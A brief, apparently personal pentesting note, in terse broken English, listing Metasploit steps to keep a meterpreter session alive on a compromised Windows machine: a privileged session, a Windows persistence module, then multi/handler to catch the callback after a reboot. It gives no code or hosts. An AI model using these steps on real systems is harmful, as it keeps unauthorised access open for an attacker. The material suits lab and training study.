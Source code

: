 To keep persistance we need to 
- a meterpreter sessions
- this sessions must have (root/ntlm authority services) permissions
- background the meterpreter sessions
- search platform:windows persistance
- use 0
- set everything requires
- run
- background the sessions
- search multi/handler
- set everything requires
- run
- this give us meterpeter session,even if the victim machine run of this give us meterpreter sessions
